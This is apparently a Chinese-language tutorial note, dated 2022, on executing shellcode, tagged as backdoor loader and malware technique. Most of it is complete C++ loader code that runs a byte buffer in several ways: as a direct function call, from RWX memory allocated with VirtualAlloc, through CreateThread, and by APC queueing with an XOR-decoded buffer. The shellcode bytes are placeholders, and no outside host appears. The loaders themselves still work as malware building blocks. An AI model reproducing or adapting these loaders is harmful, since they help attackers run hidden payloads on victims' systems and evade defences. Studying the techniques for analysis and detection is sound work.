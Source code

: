 # 执行shellcode

keywords: backdoor loader 恶意软件  

使用各种方法执行shellcode  


## 作为函数直接调用
```cpp
#include <stdio.h>

int main() {
	unsigned char buf[] ="\x11\x22";

	void(*func)();
	func = (void(*)())&buf;
	func();

	return 0;
}
```

先分配可执行内存copy一次，确保有可执行权限：  
```cpp
#include <Windows.h>
#include <stdio.h>

int main() {
	unsigned char buf[] = "\x11\x22";

	LPVOID memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (memory == NULL)
		return 1;
	memcpy(memory, buf, sizeof(buf));
	((void(*)())memory)();

	return 0;
}
```


## 使用CreateThread
```cpp
#include <stdio.h>
#include <Windows.h>

int main() {
	unsigned char buf[] = "\x11\x22";

	PVOID shellcode_exec = VirtualAlloc(0, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, buf, sizeof(buf));
	DWORD threadID;
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);

	return 0;
}
```


## APC线程注入
APC, Asynchronous Procedure Calls, 异步过程调用，在特定线程的上下文中异步执行函数  
这些函数可以触发异步执行函数调用：  
```r
SleepEx
SignalObjectAndWait
MsgWaitForMultipleObjectsEx
WaitForMultipleObjectsEx
WaitForSingleObjectEx 
```

示例：  
```cpp
#include <stdio.h>
#include <windows.h>
#include <string.h>

int main()
{
    char xor_shell[] = "\x11\x22";

    char* shellcode;
    int shellcode_size = 0;

    for (int i = 0; i < sizeof xor_shell; i++)
    {
        xor_shell[i] ^= 13;
    }

    shellcode = xor_shell;
    shellcode_size = sizeof(xor_shell);

    // 开启一个线程
    HANDLE hthread = OpenThread(16, 0, GetCurrentThreadId());

    // 给现在的进程申请一个可读可执行的内存
    char* buffer = (char*)VirtualAllocEx(GetCurrentProcess(), 0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 复制内存内容
    CopyMemory(buffer, shellcode, shellcode_size);

    // 将用户模式异步过程调用(APC)对象添加到指定线程的APC队列
    // 这里就是添加到此线程的APC队列
    // 第一个参数是 指向应用程序提供的APC函数的指针，该函数在指定线程执行可警报等待操作时调用
    QueueUserAPC((PAPCFUNC)buffer, hthread, (ULONG_PTR)buffer);

    // 挂起当前线程，直到满足指定条件，超过时间间隔后，执行恢复
    SleepEx(5, 1);

    return 0;
}
```


## 参考链接
1. https://0xpat.github.io/Malware_development_part_1
2. 初九_9 https://www.bilibili.com/video/BV1Km4y1Z73g
3. APC介绍: https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls
4. https://www.bilibili.com/video/BV1GS4y1U7EN


---
2022/2/15  
